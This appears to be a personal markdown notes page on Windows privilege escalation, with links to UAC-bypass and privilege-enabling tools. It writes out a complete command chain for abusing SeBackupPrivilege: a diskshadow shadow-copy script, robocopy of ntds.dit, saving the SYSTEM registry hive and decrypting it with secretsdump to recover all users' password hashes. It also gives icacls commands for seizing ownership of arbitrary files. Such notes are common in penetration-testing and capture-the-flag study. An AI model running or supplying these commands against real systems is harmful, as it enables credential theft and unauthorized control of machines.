 ### TODO:
1. Learn how to manipulate process memory using windows API and try to implement https://github.com/AlienX2001/PSBits/tree/master/EnableAllParentPrivileges
2. Implementing https://daniels-it-blog.blogspot.com/2020/07/uac-bypass-via-dll-hijacking-and-mock.html?m=1

## usually you just find services worth exploiting and then exploit them do priv esc but for a reference and as a compilation of my past experiences here is the notes
- first enumerate and gather all info
- using winpeas look for files/folders owned by system and we also have perms to read/write or execute refer to winpeas docs for the full form of codes displayed by winpeas over files/folders
- we can leverage services which create proccess with system privs and hence get a system shell

## If we need to enable all privs listed in a cmd shell session then we can follow these tweets and repos
https://twitter.com/0gtweet/status/1479813175046516738?t=x-BDnA-QT9hQ2eIbEw4P8g&s=19 and https://github.com/gtworek/PSBits/tree/master/EnableAllParentPrivileges

## escalation through certain privs
### SeBackupPrivilege and SeRestorePrivilege
If we have these 2 privs then what we can do is, we can create a backup of the C drive into some other drive of our choice(E drive here), this will also result in forming the backup of the C:\windows\ntds which we can use along with the master key extracted from system registry hive to decrypt the ntds file to get hashes of all users on that machine.
This can be done by 1st copying this into a txt file
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
and then using diskshadow to create a shadow copy(backup) of ther C drive via `diskshadow /s FILENAME.txt` FILENAME being the filename of the above txt file. Now our shadow copy is ready. Now we will use robocopy to copy the ntds from the E drive to our working directory via `robocopy /b E:\Windows\ntds . ntds.dit`. Now we have a copy of ntds, and are in need of the master key which needs the system registery hive, which can by saved via `reg save hklm\system "FULL PATH\system"` now we will transfer the ntds.dit file and system save file to our kali machine and use secretsdump's LOCAL mode to decrypt the ntds via `secretsdump.py LOCAL -ntds "PATH TO NTDS FILE" -system "PATH TO SYSTEM FILE"`

### SeTakeOwnershipPrivilege
Using this priv, we can simply take ownership of any file we want access to, and by taking ownership, we have full control over the object. We can take ownership of any object using icacls via 1st `icacls "FILENAME" /setowner "USERNAME"` and then `icacls "FILE NAME" /grant "USERNAME":F`


